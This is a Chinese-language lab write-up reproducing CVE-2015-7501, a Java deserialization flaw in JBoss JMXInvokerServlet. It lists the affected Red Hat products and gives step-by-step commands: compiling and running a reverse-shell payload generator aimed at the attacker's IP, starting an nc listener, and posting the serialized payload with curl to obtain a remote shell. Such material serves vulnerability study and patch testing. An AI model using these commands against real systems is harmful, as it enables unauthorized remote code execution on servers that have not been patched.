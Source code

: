 # （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2984](https://www.zhihuifly.com/t/topic/2984)

# （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞

## 一、漏洞简介

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

## 二、漏洞影响

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS 6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV) 6.x版本和5.x版本；Enterprise Application Platform 6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW) 6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

## 三、复现过程

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入[http://172.26.1.151:8080/invoker/JMXInvokerServlet](http://172.26.1.151:8080/invoker/JMXInvokerServlet) 返回如图，说明接口开发，存在反序列化漏洞

![image](img/c5512da83d294f63918fbd8c260e0089.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](img/07d7c1977844ba20a10d937871c15cba.png)

打开nc界面，发现shell已经弹回来了

![image](img/778060853ab56211b93d767fa8272659.png)